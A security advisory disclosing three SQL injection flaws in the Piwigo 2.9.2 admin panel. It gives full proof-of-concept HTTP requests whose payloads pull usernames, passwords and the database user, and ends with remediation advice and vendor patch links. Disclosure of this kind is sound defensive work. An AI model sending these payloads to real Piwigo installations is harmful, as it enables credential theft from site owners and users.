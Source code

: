 -----
layout: none
-----

## Multiple SQL Injection Vulnerabilities in Piwigo 2.9.2



<u>**Affected Version : <=2.9.2**</u>

<u>**Description:**</u> 

It was identified that admin panel of Piwigo application is vulnerable to multiple [SQL Injection](https://www.owasp.org/index.php/SQL_Injection) vulnerabilities. An attacker can exploit these vulnerabilities to gain access to the connected MySQL database. 

**<u>Vulnerable Instances:</u>**

* /admin/user_list_backend.php, **[POST] sSortDir_0**
* /admin.php?page=batch_manager&mode=unit, **[POST] element_ids**
* /admin.php?page=configuration&section=main, **[POST] order_by[]**

**<u>Proof of Concept:</u>**

Case 1: Users > Manage *Component*

**REQUEST**

```markdown
POST /piwigo-2.9.2/piwigo/admin/user_list_backend.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:57.0) Gecko/20100101 Firefox/57.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://localhost/piwigo-2.9.2/piwigo/admin.php?page=user_list
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 782
Cookie: pwg_id=vbv2rpb1899a2rldng60bjfl27
Connection: close

sEcho=1&iColumns=7&sColumns=%2C%2C%2C%2C%2C%2C&iDisplayStart=0&iDisplayLength=10&mDataProp_0=0&sSearch_0=&bRegex_0=false&bSearchable_0=true&bSortable_0=true&mDataProp_1=1&sSearch_1=&bRegex_1=false&bSearchable_1=true&bSortable_1=true&mDataProp_2=2&sSearch_2=&bRegex_2=false&bSearchable_2=true&bSortable_2=true&mDataProp_3=3&sSearch_3=&bRegex_3=false&bSearchable_3=true&bSortable_3=true&mDataProp_4=4&sSearch_4=&bRegex_4=false&bSearchable_4=true&bSortable_4=true&mDataProp_5=5&sSearch_5=&bRegex_5=false&bSearchable_5=true&bSortable_5=true&mDataProp_6=6&sSearch_6=&bRegex_6=false&bSearchable_6=true&bSortable_6=true&sSearch=&bRegex=false&iSortCol_0=0&sSortDir_0=`and+extractvalue(0x0a,concat(0x0a,(select group_concat(username,password) from piwigo_users limit 0,1)))+--+`&iSortingCols=1
```

**RESPONSE**

![sql_1](/assets/images/piwigo2.9.2/sql_1.png)



Case 2: Photos > Batch Manager *Component*

**REQUEST**

```markdown
POST /piwigo-2.9.2/piwigo/admin.php?page=batch_manager&mode=unit HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: pwg_id=jbhjl8k57er0lucpcfv015c4h1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 496

element_ids=12%2c13`)+union select group_concat(username,0x3a,password,0x3c62723e),2 from piwigo_users+--+`&name-12=funny+cat+5-wallpaper-1920x1080&author-12=this+is+test&date_creation-12=2016-11-24+00%3A00%3A00&level-12=0&tags-12%5B%5D=this+is+test&description-12=this+is+test&name-13=pirates+of+the+caribbean+dead+men+tell+no+tales-wallpaper-960x600&author-13=this+is+test2&date_creation-13=2016-11-23+00%3A00%3A00&level-13=0&tags-13%5B%5D=this+is+test2&description-13=this+is+test2&submit=Submit
```

**RESPONSE**

![sql_2](/assets/images/piwigo2.9.2/sql_2.png)

Case 3: Configuration *Component*

```markdown
POST /piwigo-2.9.2/piwigo/admin.php?page=configuration&section=main HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:57.0) Gecko/20100101 Firefox/57.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://localhost/piwigo-2.9.2/piwigo/admin.php?page=configuration
Content-Type: application/x-www-form-urlencoded
Content-Length: 415
Cookie: pwg_id=jbhjl8k57er0lucpcfv015c4h1; pwg_display_thumbnail=no_display_thumbnail
Connection: close
Upgrade-Insecure-Requests: 1

gallery_title=Just+another+Piwigo+gallery&page_banner=%3Ch1%3E%25piwigo_title%25%3C%2Fh1%3E%0D%0A%0D%0A%3Cp%3EWelcome+to+my+photo+gallery%3C%2Fp%3E&order_by%5B%5D=date_available+DESC&order_by%5B%5D=file&order_by%5B%5D=`extractvalue(0x0a,concat(0x0a,(select user())))`&rate_anonymous=on&allow_user_registration=on&allow_user_customization=on&week_starts_on=monday&history_guest=on&log=on&mail_theme=clear&submit=
```

Result of above request is reflected at following URL which is accessible publicly.

* /piwigo/index.php?/categories/created-monthly-list

![sql_3](/assets/images/piwigo2.9.2/sql_3.png)



<u>**Remediation:**</u>

As the application make use of MVC architecture, it is recommended to implement a middleware or centralized controller that make use of [Parameterized queries](http://php.net/manual/en/intro.pdo.php) and [Input Validation](https://www.owasp.org/index.php/SQL_Injection_Prevention_Cheat_Sheet) to sanitize user input before concatenating them with dynamically generated SQL queries.



**<u>Vendor Patches:</u>**

The patches issued by vendor for above vulnerabilities are as follows :

* [Admin/Users](https://github.com/Piwigo/Piwigo/commit/33a03e9afb8fb00c9d8f480424d549311fe03d40)


* [Batch Manager](https://github.com/Piwigo/Piwigo/commit/f7c8e0a947a857ff5d31dafd03842df41959b84c)
* [Configuration](https://github.com/Piwigo/Piwigo/commit/91ef7909a5c51203f330cbecf986472900b60983) 

